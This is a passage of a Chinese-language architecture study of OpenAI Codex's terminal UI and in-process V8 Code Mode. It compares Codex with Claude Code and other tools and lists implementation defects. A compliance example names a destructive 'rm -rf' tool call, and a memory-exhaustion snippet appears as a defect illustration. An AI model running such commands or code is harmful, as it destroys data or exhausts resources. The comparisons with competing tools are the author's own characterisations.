1. **Ratatui vs Ink 路线分歧**：Codex 选 Rust+Ratatui 是为了"单二进制 + 跨平台 + 低内存"，Claude Code 选 Node+Ink 是为了"前端开发者生态 + React 组件复用"。两者不存在简单优劣，但 Codex 显然更接近 unix CLI 传统，Claude Code 更接近"终端里的 web app"。这条分歧的影响一直延伸到发布渠道：Codex 通过 `@openai/codex` npm 包做平台二进制分发（前一章已经讨论），Claude Code 直接发 npm Node 包；Codex 二进制更大但启动更快，Claude Code 包更小但首次 require 解析慢。
2. **Codex 的 newline-gated + adaptive chunking 是个相对独特的方案**。其他终端 LLM 工具大多要么 char-level（每个 token 直接打印），要么 line-level（每行一刷新）；Codex 用 chunking policy 在两档之间动态切换，对 burst stream 有显著优势——但实现复杂度也是其他工具的几倍。这种复杂度的代价是：一旦 chunking 阈值调错，会出现"流式 1 行不出，模型回复完了一次性全跳出来"的体验回归。Codex 在 `docs/tui-stream-chunking-tuning.md` 之类的内部文档里专门讨论调参方法，社区普遍没意识到。
3. **Code Mode 的 in-process V8 是 Codex 独有的**。Cloudflare 的 Codemode 是 Worker out-of-process，Anthropic 的 Skills 是 host JS，Aider/Goose 没有对应原语。in-process 的好处是延迟可忽略（启动 isolate 几 ms），代价是把 v8 + ICU 二进制嵌进 Codex 本体（增加发布体积）。从仓库 `Cargo.lock` 可以看到 Codex 实际依赖的是 `rusty_v8`（deno 维护的 binding），而不是 quickjs/Boa 这种轻量替代——这是个明显的"宁愿胖二进制也要 JIT 性能与生态兼容"的决策。
4. **`exec/wait` 协议在 LLM agent 圈里相对新颖**。OpenAI Cookbook 上把它单独列为 pattern；Goose 等竞品仍然是"工具调用 = 单次同步请求"模型，无法做 yield-continue。Anthropic 的 sub-agents 与 Codex 的 exec/wait 是不同层级的解决方案：sub-agents 在 agent 边界处复用上下文，exec/wait 在工具调用边界处复用 isolate；前者解决"长任务"，后者解决"渐进任务"。
5. **沙箱粒度分歧**：Codex Code Mode 通过删除 `console / Atomics / SharedArrayBuffer / WebAssembly / 动态 import / fs / net`，把 V8 isolate 变成一个"纯计算 + 显式工具调用"的极简环境。Cloudflare Codemode 借助 Worker isolate 沙箱（DurableObjects 风格），允许更多 web API；Claude Code Skills 几乎没有沙箱（host JS 直接跑）。三种模型对应三种威胁模型：Codex 假设脚本可能恶意，Cloudflare 假设脚本受信但需要资源隔离，Claude 假设脚本完全受信。
6. **状态共享方式**：Codex 用 `stored_values` 这种 service-level KV，cell 之间隔离；Claude Code 的 Skills 可以直接共享 host process memory（risk vs convenience 的不同选择）；Cloudflare Codemode 通过 RPC 把状态推回 host，每次调用都是一次跨 isolate 通信。三者在"易用 vs 安全"光谱上排布清晰。
7. **scrollback 利用方式**：Codex 把已完成历史交给终端 scrollback 管理（ANSI 反向滚屏 + inline viewport），用户用 tmux/iTerm/Windows Terminal 自带的 PageUp/copy mode 都能正常用；Claude Code 选 alt-screen 全屏，scrollback 被切断，需要自己实现 fake scrollback。两条路线对"终端原生性"的看法相反：Codex 信任终端，Claude Code 替换终端。这条分歧直接决定了用户能不能用 `tmux save-buffer` 把 chat 整段抓出来——Codex 默认能，Claude Code 默认不能。
8. **资源占用**：从 `top` 与 `ps` 的口径看（社区个例报告），Codex 在长会话时常态内存比 Claude Code 低 30%-50%，启动延迟低一个数量级。这跟 Rust + Ratatui 路线天然吃 Native 内存模型有关——但代价是发布二进制大几十 MB（v8 + ICU + Rust runtime），不适合"通过 pipx/uvx 之类的薄包安装"。
9. **可调试性**：Codex 的 tracing 框架（`tracing::trace!` / `tracing::warn!`）让 RUST_LOG 一开就能拿到结构化日志；Claude Code 的 debug 走的是 Node inspector + Chrome devtools，对前端工程师友好但对运维角度难以集成。从"被外部观察"角度看 Codex 的姿态更开放一点。
10. **vim 模式实现**：Codex 在 `bottom_pane/textarea.rs` 与 `chat_composer.rs` 里手写 vim normal/insert 状态机（`vim_normal_keymap` 字段）；Claude Code 据公开 review 是把 vim 当 React 组件嵌入；Aider 直接用 `prompt-toolkit` 的 vim 模式。三种选择都不完美——Codex 的 vim 实现还不支持 `cw / ciw` 这种高频组合，社区 issue 上多次被吐槽。

最后一个值得点出的视角：**两轨在错误处理上的对偶**。TUI 侧任何渲染错误都会被吞掉成 `tracing::warn!`（参见 `tui.rs` 多处 `if let Err(err) = ...` 模式），因为终端是"半交互式"的——错就错了，下一帧还能重画。Code Mode 侧任何 JS 错误都会被 `value_to_error_text` 翻译成 `RuntimeResponse::Result { error_text: Some(...) }`，因为模型必须读到错误才能修正。两侧对"错误是 fatal 还是 informational"的态度完全相反，但都遵循同一条根本原则：**错误必须流向能修复它的 reader**。

### 2.7 仍存在的问题和缺陷

#### TUI 侧

1. **`bottom_pane/chat_composer.rs` 单文件 10929 行**。这种规模的状态机很难做 incremental refactor；任何一处行为变化都可能触发 `snapshots/` 里几十个快照测试失败。社区 issue 多次提及"vim mode + paste burst 组合 bug"——这类 bug 几乎都是状态正交性不足。
2. **流式表格在极宽屏 + 极长表格时仍可能撕裂**。`render_table_lines`（`markdown_render.rs:L13-L37`）做"filter spillover → normalize columns → compute widths → render box grid"四步；当 holdback 释放（finalize）一次性把 2000 行表格落 scrollback，终端模拟器自身可能慢于 ANSI sequence 输出，出现明显延迟。
3. **`HistoryLineWrapPolicy::PreWrap` 不支持 RTL 文字**。`adaptive_wrap_line` 走的是 unicode-width 而不是 bidi——阿拉伯语、希伯来语用户实际体验是反的。
4. **VS Code 集成终端的 enhanced keys 兼容**：`tui.rs:L73-L75` 单独探测 vscode 终端；这条特化路径长期是 issue 重灾区（参见社区报的"在 vscode 里 Ctrl+Up 失效"类问题）。
5. **`insert_history` 走 ANSI 原始 escape 与 ratatui buffer 是分离的两条路径**。这意味着 ratatui 的 frame diff 看不到已经落 scrollback 的内容；如果 backend 有任何 buffering（ssh / tmux 等），会出现 race：先看到滚屏后看到帧绘制，反之亦然。
6. **`alt_screen_active` 是 `Arc<AtomicBool>`**（`tui.rs:L497`），但具体切换通过 `enter_alt_screen` / `leave_alt_screen` 写入；如果第三方 widget 自己直接调 crossterm `EnterAlternateScreen` 而不走这两个方法，`Tui` 内部的 `alt_saved_viewport` 会失同步，下一次回到 inline 会把 viewport 摆错位。
7. **`tui.rs` 的 `Drop` 实现只 clear 了 ambient pet image**（`L84-L89`），不复位终端模式——终端模式复位走的是 `restore() / restore_after_exit() / restore_keep_raw()` 三个独立函数。如果直接 `mem::drop(tui)` 而不调 restore，终端会卡在 raw mode + alt screen + bracketed paste 开着的状态，用户必须 `reset` 才能恢复。这是 Rust RAII 在跨进程边界（terminal modes）的局限。

#### Code Mode 侧

1. **V8 启动延迟不可忽略**。虽然 `OnceLock` 让首次之后近零开销，但首个 exec 调用要等 `v8::V8::initialize_platform` + ICU 加载——在低性能机器（树莓派、低端 Linux 容器）上可能 200ms+。
2. **没有真正的资源配额**。`max_output_tokens` 只限制结果 token，没有 memory limit、heap limit、CPU quota；一段 `Array(10_000_000).fill(x)` 仍能吃光内存——目前唯一兜底是 OS-level OOM 或用户手动 terminate。
3. **跨 cell 共享状态的 race**。`stored_values` 在 cell A `execute` 时 clone，cell A 跑 60s 期间 cell B 改 stored_values，cell A 看不到——这违反了模型直觉（模型可能假设 store 是即时的）。
4. **`setTimeout` 一个 timer 一个 OS 线程**（`runtime/timers.rs:L39-L42`）。如果模型不小心写 `for (let i=0; i<1000; i++) setTimeout(...)`，立刻 spawn 1000 个 std::thread——这是结构性瓶颈，但 Codex 选了"实现简单" over "可扩展性"。
5. **`code-mode/src/description.rs` 长达 1098 行**，其中大量是 JSON Schema → TypeScript 字符串生成（`render_json_schema_to_typescript`）。这套生成器不支持所有 schema 特性（比如 `$ref`、`dependencies`），遇到复杂 MCP 工具就退化成 `unknown`，模型读到的类型签名信息量直接缩水。
6. **`code_mode_only` 模式下 nested tool description 全部塞进 exec description**。在大型工具集（几十个 MCP server + 数百个工具）场景下，单个 exec tool description 可能膨胀到几万 token，对模型注意力是负担。目前 Codex 用 `DEFERRED_NESTED_TOOLS_GUIDANCE`（`description.rs:L10-L11`）做了"过滤式"提示——告诉模型一部分工具不在描述里但仍可用——但这种 deferred 设计在多轮 turn 里的效果尚未充分验证。
7. **Code Mode 仍是 `Stage::UnderDevelopment`**（`features/src/lib.rs:L748-L759`）。这意味着接口、稳定性、性能保证都未达 GA，社区不应该把它当成默认主路径来构建生产 agent。
8. **`js_repl` 与 `code_mode` 在历史上是两条路线**。`features/src/lib.rs:L742-L765` 显示 `js_repl / js_repl_tools_only` 都已经被标 `Stage::Removed`，被 `code_mode / code_mode_only` 取代。这次切换从 Node-backed kernel（`docs/js_repl.md`）改成 in-process V8 isolate，是个完整的架构换血——但仓库历史里 `docs/js_repl.md` 仍然存在，新来的 contributor 容易在两套设计之间混淆。这种"已废弃但文档未删"的状态对外部研究者是个坑。
9. **`tools::collect_code_mode_tool_definitions` 不过滤工具来源**（`tools/src/code_mode.rs:L61-L71`）。任何一个被注册到 ToolSpec 的工具，无论是原生工具、MCP 工具、plugin 工具，都会被收进 Code Mode 描述。一旦插件市场里某个工具的 schema 写错了，整段 exec description 都可能因为 schema-to-ts 翻译失败而退化。
10. **`code_mode_only` 模式下 turn driver 的 fallback 路径不清晰**：如果模型在 code_mode_only 模式下不小心想直接调 `exec_command`（而不是 `tools.exec_command`），它会拿到 `tool not found` 还是被自动改写成 exec？现有源码里没有显式 fallback 逻辑。这是个 corner case，但生产部署里很可能踩到。
11. **`run_session_control` 的 `tokio::select!` 没有 priority**。Rust tokio 的 select 是 pseudo-random fairness，意味着在 event_rx、control_rx、yield_timer 同时 ready 时，处理顺序不确定。绝大多数情况下没问题，但极端时序下（比如 yield_timer 与 SessionControlCommand::Terminate 同时触发）有可能出现"先 yield 再 terminate"或"先 terminate 再 yield"的差异。这是 Codex 选择 select 的"非确定但安全"权衡的一部分。
12. **Code Mode 缺少官方调试模式**。没有 `--code-mode-trace` 之类的开关把 V8 输出原样打印到 stderr；模型写错的 JavaScript 出错时只能拿到 `value_to_error_text`（`runtime/value.rs`）的字符串。在开发自己工具集时调 Code Mode 比调 JSON tool calling 难度高得多。
13. **TUI 渲染管线对终端 fingerprint 没有 graceful degradation**：`tui.rs` 与 `markdown_render.rs` 假设终端支持 truecolor + Unicode box drawing；在某些老 SSH/容器终端上，box drawing 字符会变成 `?`，看起来像 markdown 表格全坏了。Codex 目前没有"检测到老终端就回退到 ASCII"的逻辑，社区只能靠 `--no-color` 间接控制。
14. **bracketed paste 与 paste burst 分裂**：`tui.rs:L19-L21` 开 bracketed paste 模式后，正常情况下 paste 会作为单个 paste event 进来；但 Windows、某些远程 ssh 会把 paste 拆成连续 keypress，此时只能靠 `PasteBurst` 检测。两套路径对同一个语义有两套代码，长期是 corner case bug 的温床。
15. **Code Mode 的脚本日志没有自动归档**：模型写的 JavaScript 是一次性的 inline source，跑完即抛；如果想审计某个 cell 当时执行了什么代码，唯一渠道是 rollout trace（前一章 Plugin/MCP/sessions 讨论过）。但 rollout 把 source 整段存在 turn item 里，对自动 grep "上次有没有 tools.exec_command(rm -rf)" 这种合规需求不友好。社区已经有人提 issue 要求加 source diff/redaction，目前还没落地。
16. **chat_composer 对 IME compositional input 的支持是补丁式的**：注释（`chat_composer.rs:L101-L107`）明确说"non-ASCII: we do not hold the first char"，但实际 IME 的中间态（pinyin 候选、日文假名）会以一串短字符进来，部分 paste burst 阈值会误判为 paste。这是 Codex 在中日韩用户群体中常见的输入卡顿来源。
17. **`AppEvent` 总线没有反压**：`AppEventSender` 是 `tokio::sync::mpsc::unbounded_channel`（`app.rs:L709`），不阻塞 producer。后果是如果消费侧（主循环）卡住，producer 还在拼命灌——内存增长直到 OOM。这是 Codex 选择 unbounded 的权衡：宁可冒 OOM 风险也不让 tool worker / app-server worker 因为 channel 满而阻塞 turn 驱动。
18. **`alt_screen_enabled = true` 是默认，但 `--no-alt-screen` 之类的 CLI 开关并不存在**：要 disable 必须改 config。这意味着 SSH 到远程跑 codex 时，用户可能因为终端不支持 alt-screen 而看到"屏幕滚动错位 + viewport clear 失败"的串扰。这是 OpenAI 团队"主要假设本地终端"的产品定位的副作用。

---

## 三、小结

TUI 渲染管线和 Code Mode V8 看起来是两个无关模块——一个属于"前端"，一个属于"工具"——但它们在 Codex 里被同一套设计哲学统一：**把异步、增量、可中断的事件流，翻译成可消费的稳态视图**。这条哲学在 TUI 体现为 `newline-gated` + `AdaptiveChunkingPolicy` + `TableHoldbackScanner` + `insert_history` 的四级管线；在 Code Mode 体现为 `description` + `runtime` + `service` 三层架构，以及 `exec/wait/cell_id` 的可恢复短任务协议。

定量地看，TUI 部分 `lib.rs` 2900 行、`chat_composer.rs` 10929 行、`streaming/controller.rs` 1864 行、`markdown_render.rs` 2415 行、`app_server_session.rs` 2500 行；Code Mode 部分 `service.rs` 1521 行、`description.rs` 1098 行、`runtime/mod.rs` 575 行 + 5 个子文件共约 1.0k 行。两个模块加起来约 25k 行 Rust，承担了 Codex "用户每天能感知到的"绝大部分工程负担。

从社区认知地图看，Ratatui 路线、newline-gated 流式、Code Mode 的 in-process V8、`exec/wait` 协议都已经形成共识，但 `AdaptiveChunkingPolicy` 的具体阈值、`TableHoldbackScanner` 的状态机、`run_session_control` 的 4 路 select、`stored_values` 的 snapshot 语义这些细节，目前仍是源码层的盲区。本章的目的不是"宣告这些细节是 Codex 的精妙之处"，而是把它们摆在源码可验证的位置——这套机制是不是最优解、是不是会被未来重写，仍然要看后续 issue / PR 的演化。但有一条比较确定：**当某个 LLM 终端工具决定同时支持流式 markdown 与"模型写代码编排工具"时，Codex 把这两端做到了同等的工程严肃性，而不是把任何一端当作配角**。这件事本身，比任何具体实现细节都更值得记录。

最后留下三条阅读这部分源码的实操建议：

1. **不要把 `chat_composer.rs` 一次性读完**。从 `InputResult` 枚举（`L276-L300`）和 `ChatComposer` struct 字段（`L347-L391`）入手，每次只跟一种 popup 路径（slash / file / skill / mentions_v2 / shortcut overlay）走通一次，然后再拼装；试图按行号顺序读那 10929 行会很快迷路。
2. **流式 controller 先读注释**。`streaming/controller.rs:L1-L57` 那段 doc comment 是整段子系统的最佳路标，明确写出了 stable/tail 分区、table holdback、resize handling、invariants 四件事；理解这些约束之后再回去看 `StreamCore` 与 `StreamController` 的方法实现，会顺很多。
3. **Code Mode 从 service 反推到 runtime**。先看 `service.rs` 的 `execute / wait / execute_to_pending / wait_to_pending` 四个公开方法（`L93-L243`），明白 outcome 类型；然后看 `run_session_control` 的 select 循环（`L449-L649`）；最后再下沉到 `runtime/mod.rs` 的线程模型与 globals/callbacks/value/module_loader/timers 五个子模块。把"接口→编排→实现"按这个顺序拆开，比从 description.rs 入手要快。

下一章将转向 Codex 的另一类工程主题：会话恢复（`resume_picker`）与状态数据库（`rollout/state-db`）。和本章一样，它也是一组"看似前端但实际是后端边界"的模块——把它们与本章并读，能更完整地理解 Codex 把"产品体验"做成"协议契约"的工程哲学。

补充一点关于"为什么 TUI 与 Code Mode 放在同一章"的辩护，便于后续读者批评。把它们绑在一起，并不是因为代码上耦合（事实上 TUI 与 code-mode 是两个完全独立的 crate），而是因为它们在**抽象层级、工程哲学、可观测性策略**这三个维度的对称性是 Codex 整体设计风格的浓缩展示：

- 抽象层级上，两者都是"事件流→稳态视图"的翻译器，对应不同的 reader；
- 工程哲学上，两者都坚持"协议优先于实现"——TUI 通过 `AppEvent` 单源、Code Mode 通过 `RuntimeEvent` 单源，把内部状态变化和外部副作用解耦；
- 可观测性策略上，两者都在关键路径埋满 `tracing::trace!`，并配合 feature flag 让风险机制可灰度。

理解了这三点对称性，读者就能在面对 Codex 任何一个新子系统（cloud-tasks、windows-sandbox-rs、external-agent-config-migration 等）时，预先猜出它大概率会有什么模块组织、什么 channel 拓扑、什么 trace 点位——因为 Codex 的工程风格是高度一致的。这种"读了两章，理解全仓库"的复利效应，是把同一类模块整理在一起做对比研究的真正回报。

最后用一个"如果我现在要给 Codex 提 PR"的视角收尾。假设需求是"给流式 markdown 加一个 `code_fence_holdback`，让 ```mermaid 块在 finalize 之前不进 scrollback"。你需要：

1. 在 `streaming/` 下新加 `code_fence_holdback.rs`，仿照 `table_holdback.rs` 写一个 incremental scanner，状态机有 `None / InFence { kind, start } / Closed { start, end }`。
2. 在 `StreamCore` 字段里加 `code_fence_holdback_scanner`，每次 `push_source_chunk` 同时喂给 table holdback 和 code fence holdback。
3. 修改 `sync_stable_queue`，让 `holdback_start = min(table_start, code_fence_start)`——取两个 scanner 的最小值。
4. 在 `finalize_remaining` 里照常 render 整段 raw_source。
5. 加 snapshot test 覆盖"mermaid block 中间换 width"、"mermaid block 没正常关闭"两个 corner case。

整个改动可能只有 200 行代码，但需要触及 `streaming/mod.rs`、`streaming/controller.rs`、`streaming/code_fence_holdback.rs`（新）、`streaming/table_holdback.rs`（参考）四个文件，并且要保证现有的 100+ snapshot 不破。这就是 Codex 这套小而正交的子系统的好处：**功能扩展的代价可预测，回归风险可隔离**。这也是它能在 113 个 crate 的规模下还保持迭代节奏的工程基础。

整段研究的最后一点提醒：源码可证明实现，不能证明动机。本章给出的所有"为什么这样设计"判断，仅基于注释、commit 历史与公开文档；如果想要更确定的回答，应当去 OpenAI 自己的工程博客、AGENTS.md、`docs/tui-*.md` 系列文档进一步交叉验证。社区现有讨论对这套机制的覆盖仍然偏浅，本章可以作为后续研究的起点，但不是终点。

如果只能从本章带走一句话，那是这样的：**Codex 把"流式渲染"与"代码模式"做成了两条形状相同的管线，一条服务于人眼，一条服务于模型；它们共享同一组事件总线、同一种 trace 风格、同一套 feature 开关——这种内在一致性，比任何具体性能指标都更值得作为系统设计参考**。

这条结论对自研类 Codex 工具的工程师有几个具体启示：第一，输入侧（chat composer）和输出侧（streaming controller）应该共享同一种状态字段正交化的写法，避免后续维护时被组合爆炸压垮；第二，沙箱化的代码执行如果决定走 in-process 路线，必须在 isolate 边界处准备好 yield/wait 协议，不然长任务会反向阻塞主回路；第三，所有"看起来是 UI 细节"的地方（synchronized update、reverse index 滚屏、bracketed paste burst）几乎都需要花数倍于功能本身的代码量去兜底——这部分代码的存在不是炫技，而是终端生态的现实税。把这些税预先计入预算，再决定要不要做 TUI，是个比"先做出来再说"更诚实的工程姿态。

[GEN-DONE] Part III Comparative Analysis/22-TUI与CodeMode.md
